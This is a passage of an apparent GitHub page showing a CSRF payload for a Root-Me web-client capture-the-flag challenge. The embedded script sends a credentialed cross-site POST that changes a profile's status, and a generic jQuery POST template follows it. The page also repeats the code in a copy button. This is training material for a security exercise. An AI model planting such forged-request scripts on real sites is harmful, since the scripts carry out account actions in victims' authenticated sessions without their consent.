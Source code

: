   xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject("Microsoft.XMLHTTP");
  }
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&amp;status=on");
&lt;/script&gt;

&lt;script&gt;
//JQuery version
$.ajax({
  type: "POST",
  url: "https://google.com",
  data: "param=value&amp;param2=value2"
})
&lt;/script&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script>
var xh;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject(&quot;Microsoft.XMLHTTP&quot;);
  }
xh.withCredentials = true;
xh.open(&quot;POST&quot;,&quot;http://challenge01.root-me.org/web-client/ch22/?action=profile&quot;);
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send(&quot;username=abcd&amp;status=on&quot;);
</script>

<script>
//JQuery version
$.ajax({
  type: &quot;POST&quot;,
  url: &quot;https://google.com&quot;,
  data: &quot;param=value&amp;param2=value2&quot;
})
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>